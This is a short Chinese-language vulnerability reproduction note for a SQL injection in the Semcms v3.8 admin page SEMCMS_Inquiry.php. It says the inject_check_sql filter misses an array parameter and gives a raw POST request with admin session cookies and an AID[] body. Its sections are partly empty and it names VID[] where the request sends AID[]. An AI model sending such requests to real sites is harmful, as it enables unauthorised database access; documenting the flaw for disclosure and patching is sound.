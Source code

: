 Semcms v3.8 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.8

三、复现过程
------------

> URL: <http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php>
>
> ![](./.resource/Semcmsv3.8sql注入漏洞/media/rId25.png){width="5.833333333333333in"
> height="2.9166666666666665in"}Debug：Defense module is
> class.phpmailer.php and function
> inject\_check\_sql![](./.resource/Semcmsv3.8sql注入漏洞/media/rId26.png){width="5.833333333333333in"
> height="0.4946084864391951in"}But VID\[\] didn\'t handle it

-   POST

```{=html}
<!-- -->
```
    POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
    Host: 0-sec.org
    Content-Length: 24
    Cache-Control: max-age=0
    Origin: http://127.0.0.1
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Connection: close

    languageID=&AID%5B%5D=3

image
